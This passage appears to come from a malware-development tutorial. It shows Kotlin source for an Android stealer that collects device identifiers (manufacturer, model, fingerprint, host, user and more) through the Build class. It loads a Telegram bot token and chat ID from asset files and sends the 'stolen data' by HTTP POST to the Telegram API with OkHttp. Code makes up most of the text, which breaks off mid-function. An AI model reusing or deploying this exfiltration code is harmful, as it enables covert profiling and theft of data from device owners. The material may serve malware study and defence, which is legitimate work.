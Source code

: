```kotlin

    // send the request asynchronously using OkHttp
    client.newCall(request).enqueue(object : Callback {
        override fun onFailure(call: Call, e: IOException) {
            e.printStackTrace()
        }

        override fun onResponse(call: Call, response: Response) {
            if (response.isSuccessful) {
                // Handle success
                println("Message sent successfully: ${response.body?.string()}")
            } else {
                println("Error: ${response.body?.string()}")
            }
        }
    })
}
```

The app uses `OkHttp` to send an `HTTP POST` request to the Telegram API, containing the stolen data, like device info and other metadata (such as "Meow! ♥️").     

The Bot token and Chat ID are fetched from files stored in the assets directory (`token.txt` and `id.txt`):     

```kotlin
// fetch token and chatId from assets (assuming these are saved in files)
private fun getTokenFromAssets(): String {
    return context.assets.open("token.txt").bufferedReader().readText().trim()
}

private fun getChatIdFromAssets(): String {
    return context.assets.open("id.txt").bufferedReader().readText().trim()
}
```

Then the device info (e.g., manufacturer, model, device ID) is collected using Android's `Build` class. This data is often used by attackers for device profiling and reconnaissance:     

```kotlin
// get device info
private fun getDeviceName(): String {
    fun capitalize(s: String?): String {
        if (s.isNullOrEmpty()) {
            return ""
        }
        val first = s[0]
        return if (Character.isUpperCase(first)) {
            s
        } else {
            first.uppercaseChar().toString() + s.substring(1)
        }
    }

    val manufacturer = Build.MANUFACTURER
    val model = Build.MODEL
    val device = Build.DEVICE
    val deviceID = Build.ID
    val brand = Build.BRAND
    val hardware = Build.HARDWARE
    val hostInfo = Build.HOST
    val userInfo = Build.USER
    val board = Build.BOARD
    val display = Build.DISPLAY
    val fingerprint = Build.FINGERPRINT
    val devT = Build.TYPE
```